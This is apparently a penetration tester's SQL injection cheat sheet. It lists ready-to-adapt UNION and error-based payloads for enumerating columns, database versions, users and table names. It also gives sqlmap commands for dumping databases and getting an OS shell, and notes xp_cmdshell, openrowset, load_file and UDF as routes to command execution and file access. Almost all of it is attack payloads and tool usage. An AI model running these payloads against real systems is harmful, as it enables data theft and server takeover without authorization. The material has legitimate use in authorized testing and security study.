 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
    * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
          * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
      * `--technique=<U>`
      * `--banner`
      * `--dbms` - database type
      * `--dbs` - list databases
      * `-D <database>`, `-T <tables>`, `--columns`
      * `--dump`
      * `--string` - always present in True output
      * `--not-string` - always present in False output
      * `--prefix <value>`, `--suffix <value>`
      * `--keep-alive` - persistent connection to target
      * `--os-cmd`, `--os-shell` - takeover comamnds (cmdshell, UDF)

## Techniques
#### MSSQL
* `xp_cmdshell` - executes OS commands
* `openrowset` - access the tables of a remote server; can be used as port scanner
#### MySQL
* `load_file`
* `load data infile`
* `dumpfile`
* UDF
  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

